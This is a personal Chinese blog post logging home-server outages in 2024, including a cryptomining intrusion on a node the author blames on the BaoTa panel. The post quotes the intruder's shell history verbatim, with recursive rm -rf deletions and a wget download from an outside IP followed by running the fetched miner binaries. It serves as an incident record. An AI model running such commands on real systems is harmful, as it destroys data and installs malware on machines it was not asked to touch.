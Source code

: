```yaml
---
title: 服务崩溃报告
date: 2024-08-30 18:32:39
updated: 2024-08-30 18:32:39
tags: 公告
description: 如题
categories: 技术类
---
```




8月中旬，我在学校尝试远程回家的时候发现出了点意外，没想到是出了点大问题啊，简单记录一下

在以后有什么大规模的崩溃也会记录在这里（但愿不要再写下去{% emoji blobcat blobcatsipsweat %}



## 2024/8

在8月15日下午1点，家里`ikuai-kvm`节点被入侵，执行到的相关命令如下

```bash
  338  free
  339  top
  340  ps aux
  341  apt remove sendmail* docker* container*
  342  ps aux
  343  cd /home
  344  ls
  345  rm -rf *
  346  cd /
  347  ls
  348  rm -rf www
  349  cd /etc/systemd/system
  350  ls
  351  ps aux
  352  ls
  353  rm -rf cloud* db* ddn* nez* mcsm*
  354  ls
  355  cd multi*
  356  ls
  357  rm -rf cloud* db* ddn* nez* mcsm*
  358  ls
  359  rm -rf cont* docker* tail* x-ui*
  360  cd /usr/local
  361  ls
  362  rm -rf x*
  363  rm -rf bt*
  364  cd
  365  ls
  366  w
  367  rm -rf *
  368  reboot
  369  free
  370  ps aux
  371  ls
  372  netstat -lntu
  373  ping 8.8.8.8
  374  yum install msr-tools
  375  apt install msr-tools
  376  apt autoremove
  377  ls
  378  nproc
  379  mkdir .sys
  380  cd .sys
  381  wget http://54.71.19.189:8088/x.tar
  382  tar xzvf x.tar
  383  ./hash
  384  ./s
  385  exit
```



后面就是挖矿病毒了，不是哥们你挖矿就挖矿，你还删我东西啊。他甚至名称都不舍得给我打全，用通配符来替代

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png image-20240831161032128 %}

我当时在学校临时将路由后台映射	切换到另一台服务器下，进到后台后看到路由器cpu温度有70多度，我就知道事情不简单

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png Snipaste_2024-08-30_21-43-29 %}

在`Aug 16, 5:34 AM GMT+8`时完全下线

**影响范围**：图片分发节点，mc服务器官网，图床，Gitea，大量私有服务（无法统计）

**补充**：由于由于图床需要将远程云盘目录映射到本地，同时我也测试镜像站在该服务器的部署，导致在执行清删除操作时同步清除了云盘中挂载的所有内容，合计1405个文件，已恢复

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png image-20240831161146700 %}

**分析**：包是宝塔了，我另一台在香港的服务器之前用宝塔直接被菠菜网站修改好几回nginx配置，现在三台服务器就这一台还是用着宝塔没有迁移了，里面的服务大多是docker虚拟化的，直接部署的也都是开源的程序，基本不会引进病毒，唯一可能的后门最严重的只剩下这个宝塔了。作为对比啊，我内网下另一台服务器用的是1panel，一点事没有。

**灾难恢复**：由于并没有妥善的统计内网下的服务，因此想完整恢复有点困难，但主要业务相关端口均有记录在tailscale，可以起一定参考作用

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png image-20240831141247847 %}

**措施**： 迁移图床到`hk-tt`（丢失图床数据），启用ipv6防火墙

**已恢复**：图片分发节点，ZTale，bluemap，mcsm





在8月21号，家里面线路泡水短路，总闸跳了。此外由于故障时间过长，ups干没电了，导致`PVE-SERVER`BIOS数据丢失（CMOS电池那部分线路坏了）来电重启后无法从正确的硬盘引导启动，已修复

**影响范围**：mc服务器，部分私有服务

**状态**：已恢复



在8月13号及往后，位于缤纷云的图片储存桶不时遭到攻击，由于我设置了严苛的访问政策，只造成3.12元的损失

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png Snipaste_2024-08-30_17-47-29 %}

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png Snipaste_2024-08-30_17-47-35 %}

**影响范围**：博客首页文章图片，友链头像图片

**措施**：文章封面迁移到自建图床，友链图片并入博客文件

## 2024/9

`PVE-SERVER`在外接一部手机后负载过大，可能存在硬件故障导致电源保护。

**状态**：

{% timeline %}

<!-- node Finished -->

确定为电源问题，在更换电源后解决。硬件电路无故障，所有数据正常



{% image https://onep.hzchu.top/mount/pic/myself/2024/10/image-20241001212151620.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/10/image-20241001212151620.png 状态统计数据 %}

<!-- node 2024/09/17 -->

~~已恢复，但存在电感啸叫，不确定是否仍存在问题~~。硬盘数据似乎出现毁灭性问题，暂时搁置

{% image https://onep.hzchu.top/mount/pic/myself/2024/09/Snipaste_2024-09-16_17-59-47.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/09/Snipaste_2024-09-16_17-59-47.png 状态统计数据 %}

{% endtimeline %}
